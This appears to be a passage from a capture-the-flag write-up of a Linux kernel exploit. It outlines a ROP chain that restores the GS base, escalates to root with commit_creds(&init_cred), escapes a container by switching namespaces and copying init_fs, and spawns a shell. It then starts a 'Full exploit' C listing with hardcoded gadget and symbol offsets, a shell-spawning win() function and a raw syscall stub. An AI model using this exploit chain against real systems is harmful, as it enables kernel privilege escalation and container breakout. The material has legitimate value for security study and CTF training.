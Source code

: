 
The ROPchain must:
- fix GS, to do so you can use an Arbitrary Read gadget (I jumped in the middle of **rep_movs_alternative** which is used in copy_to/from_user) to leak page_offset_base and then add 0x3ea00000 to get the actual GS base (yeah, GS' phys address is predictable)
- escalate privileges: **commit_creds(&init_cred)**
- escape container
	- change shell's namespace
	- assign a copy of **init_fs** struct to exploit task
- ret2user

Now **system("/bin/sh")** and profit :)

## Full exploit
```c
// #define DBG
#include  "kpwn.c"
  
#define MSR_SYSCALL_MASK 0xc0000084
#define MSR_GS_BASE 0xc0000101
  
#define EFLAGS_MASK 0x257fd5  ^  0x40000
#define KERNEL_GS 0x10000
#define GS_SIZE 0x2d000
  
#define PHYS_GS 0x3ea00000
  
#define POP_RSP 0xfe760
#define POP_RDI 0xda228d
#define POP_RSI 0x2527cc
#define POP_RCX 0xa3e793
#define POP_RDX 0x67ad92
  
#define ADD_DWORD_RSIRDX1_ESI 0xaa4063
#define REP_MOVS_ALTERNATIVE 0x101ed10
#define PAGE_OFFSET_BASE 0x19ea178
#define WRMSR 0x1201886
  
#define INIT_CRED 0x1c501d0
#define COMMIT_CREDS 0xcd3b0
#define FIND_TASK_BY_VPID 0xbf9a0
#define MOV_QWORD_RDI_RAX REP_MOVS_ALTERNATIVE+3
#define INIT_NSPROXY 0x1c4fd10
#define SWITCH_TASK_NAMESPACES 0xca960
#define INIT_FS 0x1d71f20
#define COPY_FS_STRUCT 0x31e6b0
#define SWAPGS_AND_SHIT 0x12015d0  +  0x67
  
  
void  win(){
	system("/bin/sh");
}
  
void  naked_syscall(){
	asm  volatile (
		".intel_syntax  noprefix\n"
		"mov  rax, 0x6969\n"
		"syscall\n"
		".att_syntax  prefix\n"
		:
		:
		: "rax"
	);
}
```